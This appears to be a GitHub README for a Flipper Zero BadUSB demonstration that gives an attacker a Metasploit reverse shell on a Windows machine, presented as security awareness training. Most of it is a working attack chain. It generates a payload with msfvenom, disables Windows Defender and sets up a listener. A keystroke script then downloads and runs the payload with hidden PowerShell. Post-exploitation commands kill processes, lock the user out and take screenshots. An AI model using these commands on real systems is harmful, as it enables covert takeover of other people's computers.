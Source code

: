 # FlipperZero_Metasploit_Demo

## Overview

This demo showcases a simulated USB drop attack using **Flipper Zero** with a **BadUSB payload**, delivering a **reverse Meterpreter shell** to a Kali Linux machine and executing a GUI-based post-exploitation effect on the target Windows system. The objective is to raise awareness among non-technical audiences about how seemingly harmless USB devices can lead to complete system compromise.

The payload includes a reverse shell, custom ASCII art, and a Notepad popup that reinforces the impact — all executed with zero user interaction beyond the USB plug-in.

---

## 🖥️ Hardware & Tools Required

* **Flipper Zero** (with BadUSB functionality enabled)
* **Kali Linux VM** (tested on 2025.2)
* **Windows 10/11 VM** (with Windows Defender disabled)
* VirtualBox / VMware / Hyper-V or similar hypervisor
* Internet access (for initial setup only)

---

## ⚙️ Setup Instructions

### 1. Kali Linux Setup

**Install Metasploit (if not installed):**

```bash
sudo apt update && sudo apt install metasploit-framework -y
```

**Generate payload (only once):**

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=<KALI_IP> LPORT=8080 -f exe -o payload.exe
```

Place `payload.exe` in a folder named `web_payload` and start a web server:

```bash
cd web_payload
python3 -m http.server 80
```

**Start Metasploit listener:**

```bash
msfconsole
```

```msf
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST <KALI_IP>
set LPORT 8080
set ExitOnSession false
exploit -j
```

---

### 2. Windows VM Setup

* Disable Windows Defender:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

* Ensure Windows and Kali VMs are on the same network (bridged or host-only).
* Note your Kali IP address using `ip a` or `ipconfig`.

---

### 3. Flipper Zero Script

Upload the following BadUSB script to your Flipper:

```txt
DELAY 1000
GUI r
DELAY 1000
STRING powershell
ENTER
DELAY 1500
STRING powershell -w hidden -nop -Command "iwr http://<KALI_IP>/payload.exe -OutFile $env:TEMP\payload.exe; Start-Process $env:TEMP\payload.exe"
ENTER
```

Replace `<KALI_IP>` with your Kali VM’s IP address.

---

## 🎯 How the Demo Works

1. Flipper types the PowerShell command that fetches and executes the payload.
2. Metasploit listener on Kali receives the reverse shell.
3. You gain a Meterpreter session and can interact with the target system.
4. For dramatic effect, Notepad opens with custom ASCII art and a scary message.

---

## 🎭 Visual Payload (Post-Exploitation)

Once session is active, run:

```msf
execute -f cmd.exe -a "/c tskill explorer & tskill chrome & timeout /t 1 >nul & echo   ░▒▓███████▓▒░   > %TEMP%\pwned.txt && echo ░▒▓██ YOU'VE BEEN ██▓▒░ >> %TEMP%\pwned.txt && echo   ░▒▓███  PWNED  ███▓▒░ >> %TEMP%\pwned.txt && echo     ░▒▓█████████▓▒░ >> %TEMP%\pwned.txt && echo. >> %TEMP%\pwned.txt && echo  Your system belongs to us... >> %TEMP%\pwned.txt && echo  Resistance is futile. >> %TEMP%\pwned.txt && echo  ▄︻̷̿┻̿═━一 💀💀💀💀💀 >> %TEMP%\pwned.txt && start notepad %TEMP%\pwned.txt"
```

---

## 💡 Optional Enhancements

* **Lock Input:**

```msf
run post/windows/manage/lockout_user
```

* **Take Screenshot:**

```msf
screenshot
```

---

## 🔁 Reproducibility Notes

* Use a fixed payload filename (like `payload.exe`) to avoid changing Flipper scripts.
* Network setup must ensure Windows can reach the Kali-hosted HTTP server.
* Metasploit must be started before payload is executed.

---

## 📌 Educational Purpose Only

This demo is intended solely for security awareness training within controlled environments. Never attempt this on unauthorized systems.

---

## 📷 Screenshots

* Reverse shell connection shown in Metasploit
* Notepad popup with ASCII message on Windows VM

---

## ✅ Status

Demo verified

---
